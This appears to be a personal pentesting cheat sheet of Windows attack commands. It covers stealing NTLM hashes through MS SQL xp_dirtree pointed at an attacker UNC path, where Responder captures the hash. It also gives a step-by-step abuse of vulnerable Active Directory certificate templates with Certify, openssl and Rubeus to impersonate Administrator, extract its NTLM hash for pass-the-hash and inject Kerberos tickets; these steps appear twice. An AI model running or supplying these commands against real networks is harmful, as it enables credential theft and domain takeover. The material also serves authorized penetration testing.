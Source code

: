```yaml
---
description: So just random notes and shell comands to do stuff
---
```


# Windows

## MS SQL

### Stealing NTLM hash&#x20;

need one of this permission

```
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_fileexist';
EXEC sp_helprotect 'xp_subdirs';
```

Then:

```
xp_dirtree '\\IP_ADDR\ANY`
```

After that responder should catch NTLM hash

## Vulnerable certificates

1. `.\Certify.exe find /vulnerable` - this finds any vulnerable template
2. `.\Certify.exe request /ca:<copy from output above> /template:<name of tempate> /altname:<user to impersonate>`
3. Copy PEM certificate and convert it with: `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
4. `.\rubues.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials`
5. Copy NTLM hash and PassTheHash
6. `.\rubues.exe asktgt /user:Administrator /certificate:cert.pfx /ptt` should inject kerberos ticket to current session but it wont always work



```
1. .\Certify.exe find /vulnerable - this finds any vulnerable tempalte
2. .\Certify.exe request /ca:<copy from output above> /template:<name of template> /altname:<user to impersonate>
3. Copy PEM certificate and convert it with openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
4. .\rubues.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
5. Copy NTLM hash and PassTheHash
5.5 .\rubues.exe asktgt /user:Administrator /certificate:cert.pfx /ptt should inject kerberos ticket to current session but it wont always work 
```
